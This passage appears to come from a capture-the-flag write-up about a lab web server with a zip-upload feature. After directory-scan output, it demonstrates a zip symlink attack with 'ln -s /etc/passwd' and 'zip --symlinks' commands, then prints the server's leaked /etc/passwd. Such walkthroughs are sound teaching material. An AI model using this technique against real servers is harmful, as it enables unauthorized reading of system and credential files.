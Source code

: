 ```bash
/server-status        (Status: 403) [Size: 277]
/shop                 (Status: 301) [Size: 311] [--> http://10.10.11.229/shop/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.11.229/uploads/]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
```
Nothing we haven't seen on the website.

Let's try to upload a PDF inside a Zip to the website.

```bash
zip test.zip test.pdf
```
The website indicates us that the file is stored at the following location: `uploads/[md5 of zip]/[filename.pdf]`

We can then access the pdf by going to this link.

It also indicates that the zip is being unzipped. That can be useful to perform an attack.

The filtering about the upload seems to be done by the extension, as uploading a valid zip file but renaming the extension before upload leads to an error.

A known attack about a zip file containing a PDF is the zip symlink attack, which consists of a zipfile that contains a symbolik link from a PDF file to a system file. When that zip file is unzipped, the PDF file will link to the system file that we want (example: `/etc/passwd`).

In our case, when the website will unzip the file and display the PDF inside, it should display the system file we want. Let's see if it works.

```sh
ln -s /etc/passwd sym.pdf

zip --symlinks test.zip sym.pdf
```

Now that we have our zip file, we have to upload it and retrieve the result.  
As the result is not visible since it's not a PDF, we can just download it and open with a text editor.

```
cat sym.pdf

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
```